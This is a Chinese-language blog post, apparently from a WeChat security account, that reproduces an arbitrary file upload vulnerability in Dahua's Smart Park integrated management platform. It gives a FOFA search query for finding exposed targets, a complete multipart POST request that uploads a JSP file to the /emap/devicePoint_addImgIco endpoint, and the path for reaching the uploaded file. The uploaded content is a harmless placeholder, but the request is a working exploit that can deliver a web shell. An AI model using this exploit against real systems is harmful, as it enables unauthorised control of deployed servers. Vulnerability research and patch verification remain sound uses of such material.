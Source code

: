 #  漏洞复现 || ​大华智慧园区综合管理平台存在任意文件上传

韩文庚  [ 我爱林 ](javascript:void\(0\);)

**我爱林** ![]()

微信号 CoderWin

功能介绍 原创歌词等你发表意见！为你揭秘恋爱正常表现！翻唱聆听自己内心世界！IT分享成为网络安全教练！

____

___发表于_

收录于合集

#渗透测试 155 个

#网络安全 158 个

#漏洞复现 151 个

## 免责声明

 **我爱林攻防研究院的技术文章仅供参考，**
**任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得利用网络从事危害国家安全、荣誉和利益**
**，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。
本文所提供的工具仅用于学习，禁止用于其他！！！**  

## 漏洞描述

大华智慧园区综合管理平台是一个集智能化、信息化、网络化、安全化为一体的智慧园区管理平台，旨在为园区提供一站式解决方案，包括安防、能源管理、环境监测、人员管理、停车管理等多个方面。大华智慧园区综合管理平台任意文件上传漏洞，攻击者可以通过该漏洞上传任意文件，导致系统被攻击与控制。

![]()

## 资产确定

    
    
     ** **fofa：**** ** **"/WPMS/asset/lib/gridster/"****

##  漏洞复现

1.利用如下POST发送请求

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1Host: {{Hostname}}Content-Length: 230Content-Type: multipart/form-data; boundary=f3aeb22be281d77542546a2f71e20982  
    --f3aeb22be281d77542546a2f71e20982Content-Disposition: form-data; name="upload"; filename="a.jsp"Content-Type: application/octet-streamContent-Transfer-Encoding: binary  
    123456789--f3aeb22be281d77542546a2f71e20982--  
    

![]()

2.利用如下拼接返回包内data的jsp文件

  * 

    
    
    http://{{Hostname}}/upload/emap/society_new/返回包内的data数据.jsp

![]()

如有侵权，请联系删除

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


